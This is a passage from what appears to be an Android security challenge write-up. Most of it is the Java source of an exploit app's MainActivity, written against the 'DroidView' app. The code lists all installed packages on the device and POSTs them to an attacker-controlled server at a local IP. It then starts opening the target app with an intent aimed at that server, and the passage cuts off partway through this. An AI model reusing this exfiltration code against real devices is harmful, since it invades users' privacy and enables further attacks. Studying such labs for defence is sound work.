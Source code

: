 Let's create the **Java code**. I just needed the **`MainActivity`** class for the logic.
```java
package com.lautarovculic.droidviewexploit;  
  
import android.content.ComponentName;  
import android.content.Intent;  
import android.content.pm.ApplicationInfo;  
import android.content.pm.PackageManager;  
import android.net.Uri;  
import android.os.Bundle;  
import android.os.Handler;  
import android.util.Log;  
import androidx.appcompat.app.AppCompatActivity;  
import org.json.JSONArray;  
import org.json.JSONObject;  
import java.io.OutputStream;  
import java.net.HttpURLConnection;  
import java.net.URL;  
import java.util.List;  
  
public class MainActivity extends AppCompatActivity {  
  
    @Override  
    protected void onCreate(Bundle savedInstanceState) {  
        super.onCreate(savedInstanceState);  
  
        // get all the installed applications and put in a JSON array  
        PackageManager pm = getPackageManager();  
        List<ApplicationInfo> apps = pm.getInstalledApplications(0);  
        JSONArray appsArray = new JSONArray();  
        for (ApplicationInfo app : apps) {  
            appsArray.put(app.packageName);  
        }  
  
        // first exfiltrate/send the applications list to the server  
        new Thread(() -> {  
            try {  
                URL url = new URL("http://192.168.0.124:8080/collect");  
                HttpURLConnection conn = (HttpURLConnection) url.openConnection();  
                conn.setRequestMethod("POST");  
                conn.setDoOutput(true);  
                conn.setRequestProperty("Content-Type", "application/json");  
  
                JSONObject payloadJson = new JSONObject();  
                payloadJson.put("ip_ext", "local_exploit");  
                payloadJson.put("info", new JSONObject());  
                payloadJson.put("apps", appsArray);  
  
                try (OutputStream os = conn.getOutputStream()) {  
                    os.write(payloadJson.toString().getBytes("UTF-8"));  
                }  
  
                int code = conn.getResponseCode();  
                Log.d("EXPLOIT", "POST /collect -> " + code);  
                conn.disconnect();  
            } catch (Exception e) {  
                Log.e("EXPLOIT", "exfil failed", e);  
            }  
  
            // And then, launch the DroidView app  
            runOnUiThread(() -> {  
                Intent open = new Intent(Intent.ACTION_VIEW, Uri.parse("http://192.168.0.124:8080/"));  
                open.setPackage("com.eightksec.droidview");  
```